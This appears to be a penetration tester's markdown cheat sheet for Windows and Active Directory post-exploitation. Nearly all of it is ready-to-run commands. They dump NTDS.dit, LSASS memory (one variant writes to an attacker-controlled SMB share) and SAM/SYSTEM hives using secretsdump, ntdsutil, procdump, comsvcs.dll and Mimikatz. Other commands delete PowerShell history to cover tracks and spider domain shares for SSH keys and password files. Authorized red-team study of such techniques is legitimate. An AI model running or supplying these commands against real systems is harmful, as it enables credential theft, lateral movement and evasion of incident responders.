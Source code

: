 ## Tools
* [LaZagne](https://github.com/AlessandroZ/LaZagne)
    ```batch
    laZagne.exe all
    ```

---
## Dumping Credentials[^1]

### NTDS dumping

#### Impacket-secretsdump directly
```
secretsdump.py company.local/administrator:P\@ssw0rd@192.168.1.100 -outputfile secretsdump.txt -resumefile resumefile -pwd-last-set -user-status -history
```

#### ntdsutil[^2][^3]
```
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\temp\ntdsutil" quit quit
# Via WMIC from a remote machine to DC
wmic /node:dc01.domain.com process call create "cmd.exe /c ntdsutil \"ac in ntds\" ifm \"cr fu C:\Windows\temp\ntdsutil\" q q"

# Then copy to kali and use secretsdump
secretsdump.py -ntds Active\ Directory/ntds.dit -system registry/SYSTEM -security registry/SECURITY LOCAL -pwd-last-set -user-status -history -outputfile output
```


### Procdump & Mimikatz

Useful if AV cannot be disabled and does not block procdump.exe

1. On target machine
    * Via procdump.exe
        ```batch
        procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
        procdump64.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
        ```
    * Via Task manager
        * Open `Task Manager` -> Details -> lsass.exe -> ++right-button++ -> "Create dump file"
    * Remote LSASS dump[^4]
        * Run below on the target/victim machine
            ```batch
            net use x: \\smbserver_under_your_control\c$\
            powershell -c rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id x:\lsassdump.bin full
            ```
    
1. Retrieve file

1. On local machine (Windows)
    ```batch
    mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit
    ```

### Exporting registry hives & local decryption
1. On the target machine
    ```batch
    mkdir c:\temp
    reg.exe save hklm\sam c:\temp\sam.save
    reg.exe save hklm\security c:\temp\security.save
    reg.exe save hklm\system c:\temp\system.save
    ```

1. Retrieve the files
    * See [Data Exfiltration](../../#data-exfiltration)

1. On local machine (~Kali)
    ```bash
    secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
    ```
    
1. On target machine
    ```batch
    del c:\temp\sam.save
    del c:\temp\security.save
    del c:\temp\system.save
    rmdir c:\temp # Except when the "temp" folder already existed before Step 1. # Check if there are other contents in the folder
    ```
---
## Delete Powershell history
* Delete the "file" given by this command:
    ```powershell
    (Get-PSReadlineOption).HistorySavePath
    ```
* Or just replace the <username> below
    ```powershell
    del C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    ```
---
## Looking for files in the Domain
* Useful when
    * escalating from a domain compromise to a full network or infrastructure compromise by looking for sensitive files such as:
        * ssh keys
        * password files
        * offline password manager DB files
    * sensitive files in "authenticated" shares
        * Attempting to escalate privileges and pivot to other hosts/networks
* About command:
    * spider = "*" to spider all shares per host
    * long list of `--exclude-dirs` to avoid scanning in the ADMIN$ or Windows folder and concentrate on other folders.
    * Edit the `--pattern` for more filename patterns
    
```bash
crackmapexec smb -d acme.corp -u administrator -p "P@ssw0rd" --spider "*" --exclude-dirs "addins,ADFS,appcompat,apppatch,AppReadiness,assembly,bcastdvr,Boot,Branding,CbsTemp,Cluster,Containers,CSC,Cursors,debug,diagnostics,DiagTrack,DigitalLocker,dot3svc,Downloaded Program Files,drivers,en-US,Fonts,GameBarPresenceWriter,Globalization,Help,IdentityCRL,IME,ImmersiveControlPanel,INF,InputMethod,Installer,L2Schemas,LiveKernelReports,Logs,Media,Microsoft.NET,Migration,Minidump,ModemLogs,OCR,Offline Web Pages,Panther,Performance,PLA,PolicyDefinitions,Prefetch,PrintDialog,Program Files,Program Files (x86),Provisioning,Registration,RemotePackages,rescache,Resources,SchCache,schemas,security,ServiceProfiles,ServiceState,servicing,Setup,ShellComponents,ShellExperiences,SKB,SoftwareDistribution,Speech,Speech_OneCore,System,System32,SystemApps,SystemResources,SysWOW64,TAPI,Tasks,Temp,tracing,twain_32,Vss,WaaS,Web,Windows,WinSxS,wlansvc" --pattern passw ssh username id_rsa id_ed25519 .pub  --only-files ~/Scope/all.txt 1>>1.txt
```

[^1]: [Pure Security](https://pure.security/dumping-windows-credentials/)
[^2]: [c0d3xpl0it](https://www.c0d3xpl0it.com/2016/10/dumping-ntdsdit-file-from-active-directory.html)
[^3]: [Hacking Articles](https://www.hackingarticles.in/credential-dumping-ntds-dit/)
[^4]: [Responder](https://twitter.com/PythonResponder/status/1385064506049630211)
